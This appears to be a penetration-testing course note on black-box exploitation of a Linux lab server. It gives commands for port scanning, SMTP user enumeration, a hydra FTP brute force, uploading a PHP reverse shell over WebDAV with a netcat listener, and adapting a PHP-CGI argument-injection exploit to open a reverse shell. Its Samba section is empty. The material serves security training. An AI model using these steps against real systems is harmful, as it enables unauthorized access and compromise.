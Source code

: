 # 8 - Linux Blackbox Exploitation

## <mark style="color:red;">Linux Black Box Penetration Test</mark>

### **Black Box Pentest**

* A Black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target system or network (No IP ranges, system information or default credentials are provided).
* The objective of a Black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary.
* This approach is very useful as it demonstrates how an external attacker with no inside knowledge would compromise a company's systems or networks.

### **Penetration Testing Phases**

* The following diagram outlines the various phases involved in a typical penetration test.

### **Black Box Methodology:**

* Host discovery
* Port scanning & enumeration
* Vulnerability detection/scanning
* Exploitation
* Manual
* Automated
* Post Exploitation
* Privilege Escalation
* Persistence
* Dumping Hashes

### **Scenario & Scope**

* You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client's network.
* The pentest lead was pleased with your ability to gain access to the Windows Server target and has assigned you to perform a pentest on a Linux server on the client's network.
* Your primary objectives are:
  * Identify services running on the target
  * Identify vulnerabilities within the services
  * Exploit these vulnerabilities to obtain an initial foothold.



## Practical Demonstration

#### <mark style="color:yellow;">Black Box Port Scanning & Enumeration</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat /etc/hosts # identify target ip addr, ping for connectivity.
nmap -sV -p1-10000 $ip -oN nmap_10k.txt # scan target.
nc -nv $ip <port> # banner grabbing ports/services nmap was unable to identify.
# in the process we were able to connect to a bind shell listener on the target on port 1524. Always perform banner grabbing with nc.
root@24wfww> ls
cat /etc/*release # distribution version.
cd /home # view users.

```
{% endcode %}

#### <mark style="color:yellow;">1 - Targeting vsftpd</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# anonymous access worked.
# searchsploit vsftpd, we tried running the exploit module, but didn't work. the backdoor was disabled by the admin (port 6200 was closed).

# another way is to perform bruteforce.
# an easy way is to exploit SMTP, which is an easy way of discovering user accts in a target PC, which can help us narrow down out bruteforce attack.

# lets do a bruteforce on SMTP and identify user accts using Metasploit.
search smtp_enum
use 0, you can modify the user wordlist, set RHOSTS, run
# we can utiize the list and narrow our bruteforce for other service like FTP.

# FTP bruteforce
hydra -l service -P ...unix_users.txt $ip ftp # we get a password.
ftp $ip 21 # login to ftp.
cd / # go to the root and look around. 

# we can now look at the WebDAV, to upload a php file and gain reverse shell.
ls /usr/share/webshells/php/php-reverse-shell.php # we can use the imbuilt php reverse shell in kali, copy it, modify it and upload to the host.
nano php-rev-shell.php # modify it.

nc -nvlp 1234 # setup a nc listener

# login to ftp.
# we can cd to the dav directory to upload the payload.
cd /var/www/dav
put php-shell.php
# refresh the browser, then run the payload, we receive a borne shell sessio on our listener.
/bin/bash -i # get a bash shell.
whoami
ls
cd /var/www
ls # now we have access to the www dir, as opposed to when we were using ftp access.
```
{% endcode %}

#### <mark style="color:yellow;">2 - Targeting PHP</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# get target ip.
nmap -sV -sC -p80 $ip 
$ip # view webpage in the browser.

$ip/phpinfo.php # view the php version.
searchsploit php cgi # search got exploit. php versions lower than 5.3.12 are vulnerable to the "CGI Argument Injection".

# we will use mannual method to exploit this vuln.
searchsploit -m <exploitID> # to copy over the exploit script to current dir.
searchsploit -m 18836
nano 18836.py # view.
# replace the php code in the cgi_exploit function with a php one liner reverse shell code. Goto revshells.com to generate the code. Save and execute the script. if it dosent work, you might want to change the "descriptors" values from 3 to 4. We now have access to the "www-data" user.
cat /etc/*release # distribution version.
```
{% endcode %}

#### <mark style="color:yellow;">3 - Targeting Samba</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
```
{% endcode %}















